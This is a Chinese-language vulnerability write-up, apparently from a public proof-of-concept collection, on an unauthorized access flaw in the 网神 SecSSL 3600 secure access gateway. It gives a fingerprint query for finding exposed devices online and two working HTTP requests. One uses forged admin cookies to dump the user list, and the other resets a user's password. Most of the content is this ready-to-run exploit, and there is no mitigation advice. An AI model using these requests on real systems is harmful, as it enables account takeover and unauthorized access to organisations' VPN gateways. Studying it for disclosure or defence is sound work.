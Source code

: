 # 网神 SecSSL 3600安全接入网关系统 未授权访问漏洞

## 漏洞描述

网神 SecSSL 3600安全接入网关系统 存在未授权访问漏洞，攻击者通过漏洞可以获取用户列表，并修改用户账号密码

## 漏洞影响

<a-checkbox checked>网神 SecSSL 3600安全接入网关系统  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安全接入网关SecSSLVPN" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1683194562640-b489ef43-07a3-45a1-8bd9-c7b311c1c0c0.png)

验证POC，获取用户列表zkec

```sql
GET /admin/group/x_group.php?id=2

Cookie: admin_id=1; gw_admin_ticket=1;
```

![img](../../../.vuepress/public/img/1683194650093-f31de8b5-b20e-46c4-b967-dc2d5007f861.png)

修改用户密码

```sql
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"ceshi","subAuthId":"1"}
old_pass=&password=Asd123!@#123A&repassword=Asd123!@#123A
```

![img](../../../.vuepress/public/img/1683194784648-9c5a03d8-e44c-406e-94f8-15bb299bc2a4.png)